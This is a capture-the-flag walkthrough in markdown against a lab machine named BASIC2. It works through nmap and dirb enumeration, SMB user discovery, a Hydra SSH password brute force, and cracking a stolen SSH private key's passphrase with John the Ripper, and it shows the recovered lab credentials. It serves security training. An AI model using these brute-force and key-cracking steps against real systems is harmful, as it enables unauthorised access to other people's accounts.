 # Enumeration

### nmap
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)www
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 2 hops
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
| smb2-time: 
|   date: 2024-09-24T12:39:18
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2024-09-24T08:39:18-04:00

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   39.98 ms 10.21.0.1
2   40.08 ms 10.10.165.52

```
### 80/http
when we open the page we get greeted with this screen
![[Pasted image 20240924145815.png]]

in the source code we can find
```html
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>
```

there aren't any links so lets try to brute-force our way
#### Dirb
```
-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.165.52/ ----
==> DIRECTORY: http://10.10.165.52/development/
+ http://10.10.165.52/index.html (CODE:200|SIZE:158)
+ http://10.10.165.52/server-status (CODE:403|SIZE:300)

---- Entering directory: http://10.10.165.52/development/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
```

so the hidden page was /development which is also a listing directory lets have a look inside
![[Pasted image 20240924150930.png]]

there are two text files the first reads

```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
these are the chats between _-J_ and _-K_ from development

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
This is for J regarding his weak passwords, so we should probably try brute forcing it. The only problem is that we don't have the full username, so lets try enumerating the SMB maybe we can find the usernames that way.

### 139, 445/SMB
#### Enum4Linux
the scan gave us two usernames: _Jan_ and _Kay_ 
> *the log corrupted somehow so I cant show you ):*

We also found a Anonymous share but it doesn't have much accept for this file
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

lets try to bruteforce Jan's Password

### 22/SSH
#### Hydra
found a password with this command
```bash
$ hydra -u jan -P rockyou.txt ssh://[target]

[22][ssh] host: 10.10.165.52   login: jan   password: armando
```

# Privilege escalation
after searching for about 2 minutes in the server I found out that the *key_rsa* in kay's home folder has bad permissions so I just copied it

when using it I realised that the hash has a pass two so I will have to crack it with johnTheRipper

first I take the key and use `ssh2john id_rsa > id_rsa.txt` to make it a crack-able hash and then I use john with rockyou.txt to crack the hash
```shell
$ john id_rsa.txt --wordlist=/home/janosch/git/SecLists/Passwords/Leaked-Databases/rockyou.txt
..Snip..
beeswax          (id_rsa)
..Snip..
Session completed
```